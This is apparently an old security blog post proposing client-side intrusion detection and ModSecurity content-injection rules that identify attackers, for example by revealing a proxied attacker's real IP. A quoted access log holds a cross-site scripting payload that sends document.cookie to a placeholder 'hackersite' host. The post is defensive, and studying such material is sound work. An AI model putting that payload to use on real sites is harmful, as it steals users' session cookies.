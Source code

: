 ```yaml
---
title: Content Injection - Hack the Hacker
author: david-kierznowski
date: Fri, 11 Apr 2008 13:52:19 GMT
template: post.pug
category: fucked
---
```


Traditional IDS/IPS systems occur at the network level, usually plugged into a spanning port on a switch. I love this concept and think it should be part of any defense in depth strategy. The two primary weaknesses in these devices are, (1) they cannot process encrypted streams and (2) they can often be circumvented with a little creativity. In this post I want to discuss using Client-Side IDS (C-IDS) for more advanced attack detection.

I don't know how realistic this would be but it could be fun concept to investigate. Imagine setting up modules on your reverse proxy. As user visits the site, different modules could get launched during different requests. One module could detect a user's browser plugins. One module could detect Tor and other services with Tor. Put the results into a hashing algorithm and you have a semi-unique client fingerprint regardless of IP address (although privacy laws could restrict these kinds of requests). OR, our reverse proxy could inject random code snippets of defense, overwriting and hijacking JavaScript functions (i.e. alert) with our own action (i.e. logging, blocking etc). Check out some of Mario's code snippets of defense for the idea: [here](/blog/snippets-of-defense-pti/), [here](/blog/snippets-of-defense-ptii/), [here](/blog/snippets-of-defense-ptiii/), and [here](/blog/snippets-of-defense-ptiv/)

So what benefits would a client-side IDS (C-IDS) provide?

* Client side code is interoperable. This means it can be rapidly deployed across any number of networks;
* Client side code works over encrypted sessions. We don't need to worry about SSL termination issues and reading into encrypted sessions;
* Client side code allows us to hook into the user's browser where the attacks are happening. This gives us greater control and the possibility to detect advanced anti-filter attacks (obfuscation & polymorphism.);
* Client side code allows us to attack the attacker. We could execute code to determine if the attacker is using Tor or any number of browser-related variables.

Basically, the same engine discussed for Web 2.0 worms could theoritically be used as an additional **defense in depth** tool. The latest version of [ModSecurity (2.5)](http://modsecurity.org/projects/modsecurity/apache/feature_content_injection.html) allows two new rules, `"prepend"` or `"append"`. These rules allow us to insert HTML/text into our HTTP responses. This type of flexability opens an entire range of doors. Great stuff guys! Here's an example from ModSecurity Content Injection article:

The following rule uses the same data as the previous example, except this time, instead of simply sending an alert pop-up box we are sending the `MyAddress.class` java applet. This code will force the attacker's browser to initiate a connection back to our web server.

	SecRule TX:ALERT "@eq 1" "phase:3,nolog,pass,chain,prepend:''"
	SecRule RESPONSE_CONTENT_TYPE "^text/html"

So, if an attacker sends a malicious request that ModSecurity triggers on, this rule will then fire and it will send the injected code to the client. Our Apache access_logs will show data similar to this:
 
	203.160.1.47 - - [20/Jan/2008:21:15:03 -0500] "GET /cgi-bin/foo.cgi?param=%3Cscript%3Edocument.write('%3Cimg%20src=%22http://hackersite/'+document.cookie+'%22')%3C/script%3E HTTP/1.1" 500 676
	203.160.1.47 - - [20/Jan/2008:21:15:03 -0500] "GET /cgi-bin/grab_ip.php?IP=222.141.50.175 HTTP/1.1" 404 207

As you can see, even though the IP address in the access_logs shows `203.160.1.47`, the data returned in the `QUERY_STRING` portion of the second line shows that the real IP address of the attacker is `222.141.50.175`. This would mean that in this case, the attacker's system was not on a private network (perhaps just connecting their computer directly to the internet). `Attacker's computer -> Proxy -> Proxy -> etc... -> Target Website`.
